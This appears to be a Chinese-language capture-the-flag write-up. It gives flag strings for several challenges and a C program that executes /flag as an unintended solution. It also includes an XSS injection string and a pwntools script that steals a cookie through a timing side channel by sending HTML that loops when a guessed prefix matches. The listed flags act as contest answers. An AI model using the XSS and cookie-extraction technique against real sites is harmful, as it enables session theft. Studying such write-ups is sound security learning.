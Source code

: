 > flag{ea5Y_sPl1tt3r_e21ecb8274}
>
> flag{r3s3rv3d_bYtes_2a17599b30}
>
> flag{1p_OoOpt10ns_8d90f970e1}

## 为什么要打开 /flag 😡（非预期解）

```C
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(int argc, const char *argv[]) {
    FILE* f = popen(". /flag", "r");
    char buff[1024];
    fgets(buff, 1024, f);
    printf("%s", buff);
    fclose(f);
}
```

（未完成第二问）

> flag{nande_ld_preload_yattano_1dc47a5ae7}

## 异星歧途

https://www.bilibili.com/video/BV1rb4y1z7Zm

https://mindustrygame.github.io/

前面16位不需要任何游戏知识，很容易知道是`10100101 11000100`，

后面16位可以稍微了解一下游戏，容易知道是`10001100 01110111`

> flag{B34WarE_0f_#xp1osi0N_d40ae7697a}

## 微积分计算小练习 2.0（未完成）

输入`"+document["cookie"]+"`可以XSS

以下是时间攻击获得`cookie`的方法

```python
from pwn import *
import string
from tqdm import tqdm


def crack(content):
    # context(os="linux", arch="amd64", log_level="debug")
    context(os="linux", arch="amd64", log_level="critical")
    p = remote("202.38.93.111", 10053)
    p.recvuntil(b'Please input your token: ')
    p.sendline(b'<your token>')
    p.recv(1000)
    p.recv(1000)
    document = (f"<!DOCTYPE html><html><head></head><body><script>"
                f"if(document.cookie.startsWith('{content}'))"
                f"while (true);</script></body></html>\nEOF").encode()

    p.sendline(document)
    result = p.recvall().decode("utf-8")
    return "Killed" in result

```